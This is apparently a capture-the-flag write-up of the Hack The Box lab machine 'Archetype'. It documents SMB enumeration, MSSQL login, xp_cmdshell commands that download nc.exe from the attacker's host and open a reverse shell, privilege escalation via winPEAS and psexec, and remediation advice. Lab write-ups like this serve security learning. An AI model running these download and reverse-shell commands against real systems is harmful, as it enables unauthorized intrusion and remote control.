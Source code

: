 ## General Information
- Machine: Archetype
- Difficulty: Very easy
- OS: Windows
- Date: 20/04/2023


## Methodology
- Reconnaissance: Identification of services using Nmap. Exploitation of the "smbclient" service and retrieval of the "prod.dtsConfig" file containing confidential information.
- Exploration: Utilization of the "impacket-mssqlclient" command to access the database and execute a reverse shell. Execution of "winpeas.exe" to identify a vulnerable file with admin information. Exploitation of the "admin" user using the "impacket -psexec" command to discover the flag.
- Results Analysis: Documentation of findings, identification of vulnerabilities, and recommendations for remediation.


## Results
During the reconnaissance phase, the IP address, open ports, and services of the target machine were identified. The exploitation of the "smbclient" service allowed the download of a file named "prod.dtsConfig" which contained confidential information. This information was then used to access the database and execute a reverse shell using the "impacket-mssqlclient" command. With the reverse shell established, further exploration led to the discovery of a vulnerable file containing admin information. Exploiting the "admin" user using the "impacket -psexec" command resulted in the successful retrieval of the flag.

### Reconnaissance
- IP: 10.129.32.176
- Port Scan results:

| Port     | State | Service      | Version         |
|----------|-------|--------------|-----------------|   
| 135/tcp  | open  | msrpc        | Microsoft Windows RPC |
| 139/tcp  | open  | netbios-ssn  | Microsoft Windows netbios-ssn |
| 445/tcp  | open  | microsoft-ds | Windows Server 2019 Standard 17763 microsoft-ds |
| 1433/tcp | open  | ms-sql-s     | Microsoft SQL Server 2017 14.00.1000.00; RTM | 

### Commands used

#### Nmap
~~~nmap
└─$ sudo nmap -sVC -v -T4 -Pn --open -O 10.129.32.176 -oA ./service_scan_port/nmap
~~~

#### smbclient
~~~smbclient
└─$ smbclient -N -L \\\\10.129.32.176\\
~~~

#### impacket-mssqlclient
~~~impacket-mssqlclient
└─$ /usr/bin/impacket-mssqlclient ARCHETYPE/sql_svc@10.129.32.176 -windows-auth
~~~

#### SQL
~~~ SQL
SQL> xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://10.10.14.65/nc.exe -outfile nc.exe"
output                                                                                                                

SQL> xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc.exe -e cmd.exe 10.10.14.65 1234"
~~~

#### server
~~~ server
└─$ python3 -m http.server 80          
Serving HTTP on 0.0.0.0 port 80 (http:/
10.129.32.176 - - [20/Apr/2023 00:19:20] "GET /nc.exe HTTP/1.1" 200 -     
10.129.32.176 - - [20/Apr/2023 01:01:13] "GET /winPEASx64.exe HTTP/1.1" 200 -
~~~

#### netcat
~~~ netcat
└─$ nc -lvnp 1234
~~~

#### winpeas
~~~ winpeas
PS C:\Users\sql_svc\Downloads> ./winpeas.exe
~~~


## Exploited Vulnerabilities
- SMB Service (Port 445):
    - Outdated version of Windows Server 2019 Standard with known vulnerabilities.
    - Inadequate sharing permissions and enabled SMBv1, an insecure version of the SMB protocol.

- Microsoft SQL Server (Port 1433):
    - Outdated version of Microsoft SQL Server 2017 with known vulnerabilities.
    - Weak authentication settings and excessive privileges for the "sql_svc" user.
    - Improper firewall configuration, allowing unauthorized access to the SQL Server service.

## Recommendations:
    - Update Windows Server 2019 Standard to the latest version.
    - Adjust sharing permissions and disable SMBv1.
    - Update Microsoft SQL Server 2017 to the latest version.
    - Strengthen authentication settings and restrict privileges for the "sql_svc" user.
    - Configure the firewall properly to restrict access to the SQL Server service.